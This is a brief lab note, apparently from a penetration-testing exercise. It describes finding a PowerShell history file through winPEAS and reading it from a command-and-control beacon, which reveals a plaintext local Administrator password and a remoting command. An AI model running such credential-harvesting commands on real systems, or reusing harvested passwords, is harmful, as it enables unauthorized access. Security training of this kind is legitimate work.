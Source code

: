 Had to have tyler show me the winPEAS output to see the location of the history.
![[Pasted image 20240404105340.png]]
got credentials when `type` the path.
![[Pasted image 20240404105514.png]]

```powershell
[04/04 10:43:50] beacon> shell type C:\Users\ferus\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[04/04 10:43:50] [*] Tasked beacon to run: type C:\Users\ferus\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[04/04 10:43:50] [+] host called home, sent: 130 bytes
[04/04 10:43:50] [+] received output:
$pass = ConvertTo-SecureString "LongAgoFarAway" -Asplain -Force
$cred = New-Object System.Management.Automation.PScredential(".\Administrator", $pass)
Enter-PSSession -Computer localhost -Credential $cred

```